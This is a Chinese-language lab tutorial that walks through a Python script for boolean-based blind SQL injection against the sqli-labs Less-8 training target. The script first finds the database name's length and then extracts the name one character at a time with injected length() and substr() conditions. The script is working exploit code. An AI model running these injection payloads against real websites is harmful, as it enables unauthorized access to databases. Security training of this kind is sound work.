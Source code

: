 # 布尔盲注获取数据库名

- 该代码主要实现用布尔盲注来得到数据库名
- 以sqli-labs/less-8为例

### 环境布置

- 实现该功能需要用`requests`模块、`string`模块，和注入点的url，并创建一个请求

![image-20240311190239825](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240311190239825.png)



### 确定数据库的长度

- 因为数据库的长度可能是1位也有可能是五十位，所以我们需要建立一个循环，让他测试一下到底有多少位，可以根据请求所返回的正文来判断是否正确（该场景下，如果条件内容是正确的会返回`You are in ...`,错误则没有。利用该情况可以实现布尔盲注）

  ![image-20240311191649053](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240311191649053.png)


### 确定数据库名

- 经过上一步骤，已经得到该数据库名长度为八位，那么分析一下，数据库名可以由大写字母`A~Z`、小写字母`a~z`、数字`0~9`还有一些特殊符号，但是必须由字母开头。这些都是可打印字符，python中有一个`string`模块可以得到所有的可打印字符，那么只需要把这些字符跟数据库名的字符依次比较，即可得到数据库的名字

  ![image-20240311200505616](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240311200505616.png)



### 源码

```python
import requests
import string
url="http://192.168.200.148/sqli-labs-master/Less-8/"

req=requests.session()
# 确定数据库名的长度
for i in range(1,51):
    params={
        'id': f" 1' and length(database())={i} -- "
    }
    res=req.get(url=url,params=params)
    if "You are in......" in res.text:
        dbname_len=i
        break
print(f"[+] The length of dbname is {i}")

# 确定数据库名
c_set=string.printable.strip()
db_name=""
for i in range(1,dbname_len+1):
   for  j in c_set :
        params={
        'id': f" 1' and substr(database(),{i},1)='{j}' -- "
        }
        res=req.get(url=url,params=params)
        if "You are in......" in res.text:
            db_name+=j
            break
print(f"[+] name of The Database is {db_name}")


```

